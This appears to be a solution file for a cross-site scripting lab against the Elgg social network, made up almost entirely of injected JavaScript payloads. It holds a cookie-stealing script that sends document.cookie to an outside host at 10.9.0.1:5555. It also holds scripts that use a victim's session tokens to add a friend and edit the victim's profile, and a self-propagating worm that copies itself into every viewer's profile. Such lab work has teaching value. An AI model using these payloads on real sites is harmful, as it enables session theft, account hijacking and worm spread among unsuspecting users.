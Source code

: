 # Ping Server
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>


# Add Friend
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    var sendurl="/action/friends/add?friend=59" + ts + token + ts + token;

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>


# Edit another Profile
<script type="text/javascript">
  window.onload = function() {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content of your url.
    var content=token + ts + "&description=Hallo, ich bin ein Wurm!" + "&accesslevel[description]=2" + guid; //FILL IN
    var samyGuid=59; //FILL IN
    var sendurl="/action/profile/edit"; //FILL IN

    if(elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax=null;
      Ajax=new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
    }
  }
</script>


# Propagating Worm
<script id="worm" type="text/javascript">
  window.onload = function() {
    // get important constants
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    // duplicate worm code
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

    var samyGuid=59;
    var sendurl_friend="/action/friends/add?friend=" + samyGuid + ts + token + ts + token;
    var sendurl_copy="/action/profile/edit";
    var content=token + ts + "&description=" + wormCode + "&accesslevel[description]=2" + guid;

    if(elgg.session.user.guid != samyGuid) {
      // create and send Ajax request to add Samy as friend
      var Ajax=new XMLHttpRequest();
      Ajax.open("GET", sendurl_friend, true);
      Ajax.send();

      // copy worm to profile
      Ajax=new XMLHttpRequest();
      Ajax.open("POST", sendurl_copy, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
    }
  }
</script>
